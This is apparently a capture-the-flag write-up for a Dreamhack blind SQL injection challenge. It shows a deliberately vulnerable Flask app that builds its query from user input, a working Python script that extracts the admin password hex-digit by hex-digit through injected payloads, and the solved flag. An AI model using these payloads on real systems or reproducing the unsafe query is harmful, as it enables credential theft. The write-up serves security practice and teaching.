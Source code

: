 ```yaml
---
title: blind sql injection advanced
author: thanguyen165
date: 2023-01-01 07:00:00 +0700
categories: [Practice, dreamhack]
tags: [Web Exploitation, SQL injection]
---
```


* Level: 2
* Link: [https://dreamhack.io/wargame/challenges/411](https://dreamhack.io/wargame/challenges/411)

## Description

> The administrator's password consists of "ASCII Code" and "Hangul".

### Attached

```sql
CREATE DATABASE user_db CHARACTER SET utf8;
GRANT ALL PRIVILEGES ON user_db.* TO 'dbuser'@'localhost' IDENTIFIED BY 'dbpass';

USE `user_db`;
CREATE TABLE users (
  idx int auto_increment primary key,
  uid varchar(128) not null,
  upw varchar(128) not null
);

INSERT INTO users (uid, upw) values ('admin', 'DH{**FLAG**}');
INSERT INTO users (uid, upw) values ('guest', 'guest');
INSERT INTO users (uid, upw) values ('test', 'test');
FLUSH PRIVILEGES;
```
{: file="init.sql" }


```py
import os
from flask import Flask, request, render_template_string
from flask_mysqldb import MySQL

app = Flask(__name__)
app.config['MYSQL_HOST'] = os.environ.get('MYSQL_HOST', 'localhost')
app.config['MYSQL_USER'] = os.environ.get('MYSQL_USER', 'user')
app.config['MYSQL_PASSWORD'] = os.environ.get('MYSQL_PASSWORD', 'pass')
app.config['MYSQL_DB'] = os.environ.get('MYSQL_DB', 'user_db')
mysql = MySQL(app)

template ='''
<pre style="font-size:200%">SELECT * FROM users WHERE uid='{{uid}}';</pre><hr/>
<form>
    <input tyupe='text' name='uid' placeholder='uid'>
    <input type='submit' value='submit'>
</form>
{% if nrows == 1%}
    <pre style="font-size:150%">user "{{uid}}" exists.</pre>
{% endif %}
'''

@app.route('/', methods=['GET'])
def index():
    uid = request.args.get('uid', '')
    nrows = 0

    if uid:
        cur = mysql.connection.cursor()
        nrows = cur.execute(f"SELECT * FROM users WHERE uid='{uid}';")

    return render_template_string(template, uid=uid, nrows=nrows)


if __name__ == '__main__':
    app.run(host='0.0.0.0')
```
{: file="app.py" }

## Analyzation

In this challenge, the flag contains "Hangul", so we cannot use normal blind sqli to brute force each characters. Instead, we can convert flag to byte, and get the hexa form of the flag. Last, convert it back and we will have the flag.

## Solution

```py
import requests, string

def get(payload):
    URL = "http://host3.dreamhack.games:17983/?uid={}"
    response = requests.get(URL.format(payload))
    if response.status_code != 200:
        print("Failed to connect")
        exit()
    return response

# -------------------------------------------------

ALPHABET = string.digits + "abcdef"

flag = ""
for position in range(100):
    for c in ALPHABET:
        payload = f"admin' and substr(hex(upw), {position}, 1) ='{c}"
        response = get(payload)
        if 'exists' in response.text:
            flag += c
            print(flag)
            break
    # } in flag
    if "7d" in flag:
        break

# flag = "44487bec9db4eab283ec9db4ebb984ebb080ebb288ed98b8213f7d"
print(bytearray.fromhex(flag).decode())
```

The flag is
```
DH{이것이비밀번호!?}
```